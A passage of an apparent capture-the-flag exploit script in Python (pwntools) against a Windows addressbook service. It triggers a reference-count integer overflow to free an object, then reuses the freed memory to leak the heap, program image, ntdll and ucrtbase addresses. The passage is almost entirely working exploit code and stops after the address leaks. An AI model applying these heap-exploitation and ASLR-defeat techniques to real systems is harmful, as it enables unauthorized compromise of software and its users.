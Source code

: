 ```python
	p.recvuntil(":")
	p.sendline(new)
	p.recvuntil(">")
	p.sendline("4")
	p.recvuntil(">")
	
	

p = remote("host",55555)
print(p.recv())
p.sendline("L0ch")
print(p.recvuntil(">"))

addAddr("AAAA","AAAA","AAAA")
addAddr("AAAA","AAAA","AAAA")
addAddr("AAAA","AAAA","AAAA")
addAddr("AAAA","AAAA","AAAA")

# node 3->4 , node 4->3
deleteAddr(4)
deleteAddr(3)
restoreAddr(4)
restoreAddr(3)

# reference count ingeter overflow - free addressbook
listAddr(3275)

# get heap address
p.recvuntil("saved in ")
obj_leak = int(p.recvuntil("\\r\\n"),16)
print(obj_leak)

# allocation after addressbook free
# overwrite addressbook->head to recyclebin, get recyclebin's vtable
# not reliable leak, but address not changed before reboot
context.log_level = "debug"

addAddr("AAAA","AAAA","A"*16 + p64(obj_leak+0x250))
listAddr(1)
p.recvuntil("Name : ")
leak = p.recv(6)
if leak[5] != "\\x7f":
	print("vtable address not leaked")
	exit()

leak = u64(leak+"\\x00\\x00")

imagebase = leak - 0x6960
ntdll_rtlinit = imagebase + 0x6060
ucrtbase_free = imagebase + 0x61f0

# leak ntdll
modifyAddr(-1,3,"A"*16+p64(ntdll_rtlinit))
listAddr(1)
p.recvuntil("Name : ")
ntdll = u64(p.recv(6)+"\\x00\\x00") - 0x6f270

modifyAddr(-1,3,"A"*16+p64(ucrtbase_free))
listAddr(1)
p.recvuntil("Name : ")
ucrtbase = u64(p.recv(6)+"\\x00\\x00") - 0xe940

print("image base : "+hex(imagebase))
```